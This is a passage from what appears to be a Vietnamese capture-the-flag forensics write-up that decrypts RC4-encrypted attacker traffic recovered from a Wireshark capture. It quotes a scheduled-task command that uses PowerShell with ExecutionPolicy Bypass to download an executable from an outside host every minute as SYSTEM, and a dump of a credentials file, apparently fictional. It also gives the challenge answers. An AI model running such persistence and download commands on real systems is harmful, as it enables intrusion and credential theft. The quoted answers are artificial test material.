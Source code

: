 ```Python
    162, 38, 143, 186, 35, 142, 128, 234, 196, 239, 134, 178, 205, 229, 121, 225,
    246, 232, 205, 236, 254, 152, 145, 98, 126, 29, 217, 74, 177, 142, 19, 190,
    182, 151, 233, 157, 76, 74, 104, 155, 79, 115, 5, 18, 204, 65, 254, 204,
    118, 71, 92, 33, 58, 112, 206, 151, 103, 179, 24, 164, 219, 98, 81, 6,
    241, 100, 228, 190, 96, 140, 128, 1, 161, 246, 236, 25, 62, 100, 87, 145,
    185, 45, 61, 143, 52, 8, 227, 32, 233, 37, 183, 101, 89, 24, 125, 203,
    227, 9, 146, 156, 208, 206, 194, 134, 194, 23, 233, 100, 38, 158, 58, 159
])

# Dữ liệu Base64 cần giải mã
b64_data = """

"""

# Giải mã
data = base64.b64decode(b64_data)
decrypted = rc4(key, data)
print(decrypted.decode(errors="ignore"))
```

Data sẽ được lấy từ imap trong wireshark

Ở luồng tcp.stream 35 sẽ lấy được đáp án

```
(c) Microsoft Corporation. All rights reserved.



C:\Users\dev-support\Desktop>schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM



C:\Users\dev-support\Desktop>
```

```
Answer: Synchronization
```
> 6. What is the API key leaked from the highly valuable file discovered by the attacker?

Vẫn tiếp tục là lấy data đem decode, thì ở stream 97 sẽ có được đáp án

```
Microsoft Windows [Version 10.0.19045.5487]

(c) Microsoft Corporation. All rights reserved.

C:\Users\dev-support\Desktop>more C:\backups\credentials.txt

[Database Server]

host=db.internal.korptech.net

username=dbadmin

password=rY?ZY_65P4V0

[Game API]

host=api.korptech.net

api_key=sk-3498fwe09r8fw3f98fw9832fw

[SSH Access]
```
